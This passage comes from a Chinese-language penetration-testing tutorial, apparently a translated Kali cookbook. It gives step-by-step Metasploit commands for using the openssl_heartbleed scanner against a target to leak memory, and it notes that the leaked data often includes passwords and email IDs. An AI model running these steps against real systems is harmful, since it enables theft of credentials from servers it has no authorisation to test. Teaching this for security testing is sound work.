 # 如何做...

要了解 HeartBleed，请按照以下步骤进行：

1.  我们通过输入此命令启动`msfconsole`：

```
 msfconsole
```

以下屏幕截图显示了上述命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/418bd92c-2e74-4825-840d-52fb69e3fa5f.png)

1.  然后，我们使用以下命令搜索 HeartBleed 辅助工具：

```
 search heartbleed
```

以下屏幕截图显示了上述命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/139b4243-4ce8-4290-befb-6b0d03d70c76.png)

1.  接下来，我们使用以下命令使用辅助工具：

```
 use auxiliary/scanner/ssl/openssl_heartbleed
```

1.  然后我们使用以下命令查看选项：

```
 show options
```

以下屏幕截图显示了上述命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/f7e03e17-9728-45c3-81b7-160c9ea9d3ff.png)

1.  现在我们使用以下命令将 RHOSTS 设置为我们的目标 IP：

```
 set RHOSTS x.x.x.x
```

1.  然后，我们使用此命令将详细程度设置为`true`：

```
 set verbose true
```

1.  然后我们输入`run`，现在我们应该看到数据。这些数据通常包含敏感信息，如密码、电子邮件 ID 等：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/0eb13fbb-7033-4103-a09c-193f517d8002.png)

# Redis 利用
